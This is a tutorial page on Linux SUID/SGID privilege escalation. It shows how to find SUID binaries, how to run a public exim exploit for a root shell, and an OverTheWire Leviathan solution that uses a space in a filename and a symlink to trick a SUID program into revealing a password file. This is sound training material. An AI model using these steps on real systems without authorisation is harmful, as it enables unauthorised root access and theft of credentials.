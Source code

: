 # SUID / SGID

#### SUID files get executed with the privileges of the file owner. 

#### SGID files get executed with the privileges of the file group. 

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## Finding SUID / SGID Files

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

## Shell Escape Sequences

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io/) Refer to the previous section on shell escape sequences for how to use them.

### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

![](../../../.gitbook/assets/suid1.png)

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:

{% hint style="info" %}
DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.
{% endhint %}

`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## Abusing cat to read files with SUID executables

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

![](../../../.gitbook/assets/1%20%2814%29.png)

make a temp directory, and a new text file that we can use for testing the program with ltrace.

#### `mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt  cd /tmp/jhalon  ltrace ~/printfile test.txt   __libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600  access("test.txt", 4) = 0  snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17  system("/bin/cat test.txt"  --- SIGCHLD (Child exited) ---  <... system resumed> ) = 0  +++ exited (status 0) +++`

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access\(\) and /bin/cat are being called on the input file. What access\(\) does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access\(\) will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access\(\) uses the full path’s filename, /bin/cat uses just the first part of the filename. \(This is due to how the “ “ are set up in the program\) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

#### `touch pass\ file.txt  ltrace ~/printfile "pass file.txt"   __libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600  access("pass file.txt", 4) = 0  snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22  system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory  /bin/cat: file.txt: No such file or directory   --- SIGCHLD (Child exited) ---  <... system resumed> ) = 256  +++ exited (status 0) +++`

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

#### `ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass   leviathan2@melinda:/tmp/jhalon$ ls -la   total 7864  drwxrwxr-x 2 leviathan2 leviathan2 4096 Sep 10 04:55 .  drwxrwx-wt 1 root root 8036352 Sep 10 04:55 ..  lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3  -rw-rw-r-- 1 leviathan2 leviathan2 0 Sep 10 04:54 pass file.txt   leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"  Ahdiemoo1j  /bin/cat: file.txt: No such file or directory`

as you can see we where able to read password file.



















